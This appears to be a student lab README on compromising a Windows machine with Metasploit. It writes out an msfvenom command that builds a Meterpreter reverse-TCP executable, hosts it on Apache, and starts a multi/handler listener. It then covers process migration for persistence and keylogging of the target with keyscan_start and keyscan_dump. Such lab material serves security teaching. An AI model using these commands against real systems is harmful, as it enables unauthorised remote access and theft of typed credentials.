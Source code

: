 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:
Find the attackers ip address using ifconfig

## OUTPUT:
![image](https://github.com/Prasanth9025/Compromising-windows-using-Metasploit/assets/118343686/d33317f3-8eca-4159-8649-40e3ec9f8b4d)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![image](https://github.com/Prasanth9025/Compromising-windows-using-Metasploit/assets/118343686/bdb759ae-90ea-49de-b23f-e2bcaa76a6ed)

copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/Prasanth9025/Compromising-windows-using-Metasploit/assets/118343686/30cc4ec7-d524-4f5c-9b95-e9061994b4d8)

Start apache server sudo systemctl apache2 start

![image](https://github.com/Prasanth9025/Compromising-windows-using-Metasploit/assets/118343686/79e04102-27ad-4ace-9dfe-19a2f9d1eb2d)

Check the status of apache2

![image](https://github.com/Prasanth9025/Compromising-windows-using-Metasploit/assets/118343686/ca8f79f0-3c7a-4798-8538-1a768faa4b96)

## Invoke msfconsole:
## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/Prasanth9025/Compromising-windows-using-Metasploit/assets/118343686/a97789c6-6169-42ac-9f3b-74adff80c6cc)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/Prasanth9025/Compromising-windows-using-Metasploit/assets/118343686/cf7d59da-832d-4dff-b833-3d1859e221a6)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/Prasanth9025/Compromising-windows-using-Metasploit/assets/118343686/2f30398f-f5c5-40e4-870f-d39f19d71744)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/Prasanth9025/Compromising-windows-using-Metasploit/assets/118343686/a3e26eee-b15d-4557-a431-94d3ecb5bcf7)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/Prasanth9025/Compromising-windows-using-Metasploit/assets/118343686/5ef5a4a7-0734-4686-889e-8c2aaa8a593c)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
